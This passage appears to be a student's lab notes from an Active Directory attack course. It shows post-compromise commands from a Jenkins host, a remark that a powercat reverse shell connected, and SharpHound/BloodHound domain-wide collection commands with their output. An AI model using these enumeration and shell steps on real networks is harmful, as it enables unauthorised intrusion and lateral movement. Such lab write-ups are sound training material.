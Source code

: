PS C:\Program Files (x86)\Jenkins\workspace\project1>whoami
dcorp\ciadmin
PS C:\Program Files (x86)\Jenkins\workspace\project1> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::e599:a231:d264:7200%2
   IPv4 Address. . . . . . . . . . . : 172.16.3.11
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.3.254

Tunnel adapter isatap.{5BF9E7FE-BDCB-487C-B818-7332CA8AFB16}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
```


## 再再再补充
跟助教继续沟通。不是powercat的问题，其实是已经收到了反弹的shell，只不过需要按多几下Enter键才能显示出反弹shell的内容，我尼玛。。。


# Learning Objective - 6

Task
> • Setup BloodHound and identify a machine where studentx has local administrative access.



1. 收集信息
工具：BloodHound-master

引入： 
```
. .\SharpHound.ps1
```

收集全部域信息
```
Invoke-BloodHound -CollectionMethod All -verbose
```


```
PS C:\ad\BloodHound-master\Ingestors> ls


    Directory: C:\ad\BloodHound-master\Ingestors


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/12/2022   7:44 PM                DebugBuilds
-a----        2/12/2022   7:49 PM          14519 20220212194952_BloodHound.zip
-a----        2/12/2022   7:49 PM          29184 MjdjZDRjMmMtZWVhZC00YmE4LThkYmItZWQ4NWVmMjllN2Mx.bin
------        7/22/2020  11:12 AM         833536 SharpHound.exe
------        7/22/2020  11:12 AM         973425 SharpHound.ps1
